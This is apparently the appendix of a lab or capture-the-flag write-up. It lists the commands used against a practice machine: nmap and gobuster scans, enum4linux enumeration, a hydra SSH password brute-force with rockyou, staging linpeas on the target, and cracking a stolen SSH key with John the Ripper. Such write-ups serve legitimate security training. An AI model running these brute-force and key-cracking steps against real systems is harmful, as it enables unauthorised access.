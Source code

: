 
## Appendix — Useful commands (summary)
```bash
# Network check
ping -c 4 10.10.100.180

# Nmap scan
nmap -sC -sV -oN nmap/initial 10.10.100.180

# Gobuster directory scan
gobuster -w /opt/Dirbuster-0.12/directory-list-2.3-medium.txt -u http://10.10.100.180/

# Enum4linux aggressive enumeration
/opt/enum4linux/enum4linux.pl -a 10.10.100.180 | tee enum4linux.log

# Hydra SSH brute-force (example)
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180

# Copying linpeas to target
scp /opt/linPEAS/linpeas.sh jan@10.10.100.180:/dev/shm

# Run linpeas and save output
./linpeas.sh | tee linlog.txt

# Convert SSH key for John the Ripper
/opt/JohnTheRipper/run/ssh2john.py kay_id_rsa > forjohn.txt

# Crack key with john using rockyou
/opt/JohnTheRipper/run/john forjohn.txt --wordlist=/opt/rockyou.txt
```

